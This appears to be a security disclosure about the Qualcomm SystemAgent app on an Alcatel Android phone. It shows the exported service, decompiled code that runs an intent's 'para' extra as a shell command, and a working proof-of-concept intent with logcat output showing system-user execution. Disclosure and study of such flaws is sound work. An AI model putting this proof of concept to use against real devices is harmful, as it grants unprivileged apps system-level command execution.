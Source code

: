 \# CVEs
- None CVEs requested / None assigned, reported directly to vendor
- Issue 1: Qualcomm SystemAgent application allows unprivledged user execution of shell commands as system user
- Issue 2: QSA applications allows ability for unprivledged user to set system properties.
- Issue 3: QSA applications allows ability for unprivledged user to write strings as system user.
- Issue 4: QSA applications allows ability for unprivledged user take a screen shot of device.
- Issue 5: QSA applications allows ability for unprivledged user reboot the device.

## Authors
- Jon “jcase” Sawyer - jcase@cunninglogic.com

## Affected Devices (tested on)
- Accatel A564C (TCL/ALCATEL_A564C/Yaris5NA:4.4.2/KVT49L/v4FAZ-0-0:user/release-keys)
- Potentially other devices with the com.qualcomm.agent package install on it

## Main (interesting) Vulnerability 

Only diving directly into the interesting vulnerability which is the Qualcomm SystemAgent application allowing an unprivledged user to
 execute any shell commands as system user. This application apparently was never meant to ship on production devices.

### Result
Local privilege escalation to system user, with multiple groups running in the system_app context

### Overview

The Qualcomm SystemAgent application (package name `com.qualcomm.agent`) has an unsecured (exported, no permissions required):

```
<service android:name="com.qualcomm.agent.SystemAgent">
<!-- snip -->
    <intent-filter>
        <action android:name="android.system.fullagent" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</service>
```

The when a `startService` broadcast is sent to the `SystemAgent` using the fullagent action intent, the service executes the intent's "para"
data field as a shell command.

```
Values.ACTION_FULL_AGENT = "android.system.fullagent";

public int onStartCommand(Intent intent, int flags, int startId) {
// .. snip ..
    else if(Values.ACTION_FULL_AGENT.equals(intent.getAction())) {
        this.exec(intent.getStringExtra("para"));
    }

    return 1;
}

    void exec(String para) {
        new Thread() {
            final SystemAgent this$0;
            final String val$para;

            public void run() {
                int v13 = 0x23;
                try {
                    SystemAgent.logd(this.val$para);
                    String[] paras = this.val$para.split(",");
                    int i;
                    for(i = 0; i < paras.length; ++i) {
                        SystemAgent.logd(i + ":" + paras[i]);
                    }

                    Process mProcess = Runtime.getRuntime().exec(paras);
                    mProcess.waitFor();
                    BufferedReader inBuffer = new BufferedReader(new InputStreamReader(mProcess.getInputStream()));
                    String data;
                    for(data = ""; true; data = data + s + "\n") {
                        String s = inBuffer.readLine();
                        if(s == null) {
                            break;
                        }
                    }

                    SystemAgent.logd(data);
                    int result = mProcess.exitValue();
                    SystemAgent.logd("ExitValue=" + result);
                    String resultProp = paras[0] + ",";
                    if(result >= 0 && result != 0xFF) {
                        resultProp = data.length() > v13 ? resultProp + data.substring(0, 0x23) : resultProp + data;
                    }

                AgentUtils.setSystemProperties(Values.AGENT_RESULT_PROP, resultProp);
                    return;
                }
                catch(Exception e) {
                    SystemAgent.logd(e);
                    return;
                }
            }
        }.start();
    }
```

### Proof of concept

```
ComponentName intentComponent = new ComponentName("com.qualcomm.agent", "com.qualcomm.agent.SystemAgent");
Intent serviceIntent = new Intent ("android.system.fullagent");
serviceIntent.setComponent(intentComponent);
serviceIntent.putExtra("para", "/system/bin/id");
startService(serviceIntent);
```

Result from logcat:

> D/SystemAgent( 4109): [onCreate] RUN
> D/SystemAgent( 4109): [onStartCommand] 1
> D/SystemAgent( 4109): [access$000] /system/bin/id
> D/SystemAgent( 4109): [access$000] 0:/system/bin/id
> D/SystemAgent( 4109): [access$000] uid=1000(system) gid=1000(system) groups=1000(system),1004(input),1010(wifi),1015(sdcard_rw),1021(gps),1023(media_rw),1028(sdcard_r),2002(diag),3001(net_bt_admin),3002(net_bt),3003(inet),3004(net_raw),3005(net_admin),3009(qcom_diag),41000(u0_a31000) context=u:r:system_app:s0
> D/SystemAgent( 4109): [access$000] ExitValue=0


### Additional related vulnerabilities in SystemAgent application

`private void doSystemActions(String para)` through the same service allows an unprivledged application/user to:
- Set system properties
- Write strings to files as system user (writeFileAgent)
- Take a screen shot and save it to “/storage/sdcard1/logs/screenshot.png"
- Reboot the device﻿
